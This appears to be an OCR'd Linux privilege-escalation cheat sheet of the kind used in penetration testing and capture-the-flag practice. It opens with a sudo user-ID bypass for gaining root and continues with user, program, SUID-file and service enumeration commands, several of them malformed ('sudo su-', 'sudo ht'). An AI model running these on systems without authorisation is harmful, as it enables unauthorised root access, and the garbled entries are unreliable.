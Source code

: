 ````
User bob may run the following commands : (ALL, !root) /bin/bash
$ sudo -u#-1 /bin/bash
````

# Find user information
````
id
whoami
last
````
 
# Check installed programs, permissions, and hidden files
````
ls -lah
ls -lah /usr/bin
ls -lah /sbin
yum list installed
dpkg-query -l
rpm -qa
ls -lah /usr/share/applications | awk -F '.desktop' ' { print $1}'
````
 
# Manual escalation commands
````
sudo su
sudo -i
sudo /bin/bash
sudo su-
sudo ht
pkexec visudo
/etc/passwd
/etc/sudoers
find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
find / -perm -4000 2>/dev/null | xargs ls -al
````

# Evaluate running services
````
ps aux
ps aux -u root
systemctl status (service)
top
pstree
cat /etc/services
service --status-all
ps -aef --forest
````
